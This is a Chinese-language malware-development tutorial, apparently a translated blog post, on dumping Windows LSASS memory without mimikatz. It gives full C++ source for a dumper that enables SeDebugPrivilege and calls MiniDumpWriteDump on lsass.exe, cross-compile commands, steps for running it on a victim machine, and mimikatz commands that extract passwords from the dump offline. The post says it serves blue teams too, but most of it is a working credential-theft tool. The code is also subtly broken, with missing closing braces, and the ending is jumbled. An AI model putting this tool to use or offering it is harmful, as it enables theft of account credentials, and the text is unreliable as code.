






\newpage
\subsection{恶意软件开发技巧：转储 lsass.exe（简单的 C++ 示例）}

﷽

{width="80%"}

今天，我想展示如何不用 Mimikatz 就转储 LSASS：通过 `MiniDumpWriteDump` API。

### 实战示例

那么，我们如何编写一个简单的 `lsass.exe` 进程转储器呢？我们使用 `MiniDumpWriteDump`：

```cpp
BOOL MiniDumpWriteDump(
  [in] HANDLE  hProcess,
  [in] DWORD  ProcessId,
  [in] HANDLE  hFile,
  [in] MINIDUMP_TYPE  DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION  ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION  CallbackParam
);
```

`MiniDumpWriteDump` 是一个 Windows API 函数，它创建一个 minidump 文件，即函数被调用时应用程序状态的一个小型快照。

首先，我们用类似这样的函数找到 `lsass.exe` 进程：

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

```

作为攻击者，转储 LSASS 需要拥有 `SeDebugPrivilege` 权限：

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;

```

然后，创建转储：

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
  dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
  NULL, NULL);
  printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
  "failed to dump :(\n");
  } 
  return dumped; 

```

那么，完整源代码看起来是这样的 `hack.cpp`：

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
  dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
  NULL, NULL);
  printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;

```

如你所见，别忘了把 `dbghelp.lib` 添加为依赖项：

```cpp
#pragma comment (lib, "dbghelp.lib")
```

### 演示

我们来看一切实际运行的样子。在攻击者的机器上（kali x64）编译我们的转储器：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}

然后，在受害机器上执行它（我的例子是 Windows 10 x64）：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到，`lsass.dmp` 被转储到了工作目录 `C:\temp\`。

然后，打开 mimikatz 载入这个转储文件并转储密码：

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

{width="80%"}

{width="80%"}

有意思的时刻：在我的 Windows 上 mimikatz v2.2.0 不起作用。

{width="80%"}

注意，Windows 10 上的 Windows Defender 会立即标记 mimikatz……

那么，技巧在哪里呢？我们可以按以下路径实施攻击：

在受害机器上执行 `hack.exe`

于是 `lsass.dmp` 被转储到工作目录

把 `lsass.dmp` 离线带到我们的攻击 Windows 机器

打开 mimikatz 载入这个转储文件

这只是其中一种方法，我会在将来尝试讲另一种。

这个技巧被野外许多 APT 和黑客工具使用。

例如，Cobalt Strike 可以生成一个作业注入到 LSASS 内存并转储密码哈希。

Fox Kitten 和 HAFNIUM 使用 procdump 转储 LSASS 进程内存。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

由于 mimikatz 是一个非常著名且容易被检测的工具，黑客们会寻找新技巧来重新实现它逻辑中的某些功能。

这个文件对调试很有用，因为它包含异常信息、已加载 DLL 的列表、堆栈信息以及其他系统状态信息。

但却允许运行 `hack.exe`。

转储受害机器的密码（在攻击者的机器上）！
